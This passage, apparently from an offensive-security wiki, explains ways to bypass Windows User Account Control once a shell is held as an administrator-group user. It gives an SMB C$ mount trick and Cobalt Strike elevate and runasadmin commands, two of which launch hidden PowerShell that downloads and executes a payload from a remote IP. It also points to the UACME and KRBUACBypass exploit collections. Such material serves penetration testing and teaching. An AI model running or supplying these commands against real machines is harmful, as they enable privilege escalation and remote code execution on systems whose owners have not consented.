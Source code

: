 ### **Very** Basic UAC "bypass" (full file system access)

If you have a shell with a user that is inside the Administrators group you can **mount the C$** shared via SMB (file system) local in a new disk and you will have **access to everything inside the file system** (even Administrator home folder).

> [!WARNING]
> **Looks like this trick isn't working anymore**

```bash
net use Z: \\127.0.0.1\c$
cd C$

#Or you could just access it:
dir \\127.0.0.1\c$\Users\Administrator\Desktop
```

### UAC bypass with cobalt strike

The Cobalt Strike techniques will only work if UAC is not set at it's max security level

```bash
# UAC bypass via token duplication
elevate uac-token-duplication [listener_name]
# UAC bypass via service
elevate svc-exe [listener_name]

# Bypass UAC with Token Duplication
runasadmin uac-token-duplication powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
# Bypass UAC with CMSTPLUA COM interface
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```

**Empire** and **Metasploit** also have several modules to **bypass** the **UAC**.

### KRBUACBypass

Documentation and tool in [https://github.com/wh0amitz/KRBUACBypass](https://github.com/wh0amitz/KRBUACBypass)

### UAC bypass exploits

[**UACME** ](https://github.com/hfiref0x/UACME)which is a **compilation** of several UAC bypass exploits. Note that you will need to **compile UACME using visual studio or msbuild**. The compilation will create several executables (like `Source\Akagi\outout\x64\Debug\Akagi.exe`) , you will need to know **which one you need.**\
You should **be careful** because some bypasses will **prompt some other programs** that will **alert** the **user** that something is happening.

UACME has the **build version from which each technique started working**. You can search for a technique affecting your versions:

```
PS C:\> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```
